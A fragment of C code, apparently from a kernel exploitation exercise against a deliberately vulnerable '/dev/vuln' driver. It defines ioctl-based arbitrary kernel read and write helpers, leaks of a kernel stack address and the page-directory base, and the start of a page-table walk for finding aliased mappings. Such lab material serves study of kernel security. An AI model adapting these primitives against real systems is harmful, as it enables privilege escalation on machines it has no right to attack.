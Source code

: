 ```C
	if (ioctl(fd, VULN_WRITE, &req) < 0) {
    	perror("ioctl");
    	exit(-1);
	}
}

unsigned long read64(unsigned long kaddr) {

	struct rwRequest req;
	unsigned long value;;

	req.uaddr = &value;
	req.length = 8;
	req.kaddr = (void *)kaddr;

	int fd = Open("/dev/vuln", O_RDONLY);

	if (ioctl(fd, VULN_READ, &req) < 0) {
    	perror("ioctl");
    	exit(-1);
	}
	return value;
}

unsigned long leak_stack() {
	struct rwRequest req;
	unsigned long stack;

	int fd = Open("/dev/vuln", O_RDONLY);

	req.uaddr = &stack;
	if (ioctl(fd, VULN_STACK, &req) < 0) {
    	perror("ioctl");
    	exit(-1);
	}

	return stack;
}

unsigned long leak_pgd() {
	struct rwRequest req;
	unsigned long pgd = 0xcccccccc;

	int fd = Open("/dev/vuln", O_RDONLY);

	req.uaddr = &pgd;
	if (ioctl(fd, VULN_PGD, &req) < 0) {
    	perror("ioctl");
    	exit(-1);
	}

	return pgd;
}

unsigned long find_synonym(unsigned long pgdir, unsigned long vaddr) {

	unsigned long index1 = (vaddr >> 39) & 0x1ff;
	unsigned long index2 = (vaddr >> 30) & 0x1ff;
	unsigned long index3 = (vaddr >> 21) & 0x1ff;
	unsigned long index4 = (vaddr >> 12) & 0x1ff;

	printf("index1: %lx, index2: %lx, index3: %lx index4: %lx\n", index1, index2, index3, index4);
    
```